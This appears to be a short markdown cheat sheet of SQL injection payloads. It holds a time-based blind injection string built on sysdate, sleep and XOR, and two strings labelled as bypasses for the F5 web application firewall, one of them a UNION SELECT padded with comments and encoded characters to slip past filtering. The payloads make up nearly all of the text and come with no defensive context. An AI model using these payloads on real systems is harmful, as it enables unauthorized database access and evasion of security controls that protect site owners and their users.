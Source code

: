 # General

Sysdate/Sleep/XOR:

```
`0'XOR(if(now()=sysdate(),sleep(6),0))XOR'`
```

# F5

F5 [[WAF Bypass]]1:

```
+{`nothing`/*str*/(')}div%0B1+'
+{`nothing`/*str*/(')}div%0B0+'
```

F5 [[WAF Bypass]] 2:

```
{`noth`/*ing*/821}+union+%23%0a+distinctrow%0b/**/select+1,2,3--{`nothing`/**/TRUE}
```


